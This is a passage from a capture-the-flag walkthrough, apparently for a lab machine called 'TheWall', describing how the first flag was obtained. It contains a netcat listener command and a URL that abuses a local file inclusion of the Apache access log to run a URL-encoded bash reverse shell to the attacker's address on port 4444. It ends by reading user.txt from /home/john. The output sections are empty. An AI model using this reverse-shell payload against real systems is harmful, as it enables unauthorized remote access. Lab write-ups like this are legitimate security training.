



4.1.2 Bash reverse shell (First flag)
1. Create a connection with netcat on your Kali Machine.
$ nc -nlvp 4444
Output:

2. Send a reverse shell visiting the URL from the victim's machine http://192.168.12.70/includes.php?display_page=/var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.12.60/4444%200%3E%261%22.
Output:

3. Get the flag. Go to “/home/john” directory.
www-data@TheWall:/home/john$ cat user.txt
Output:
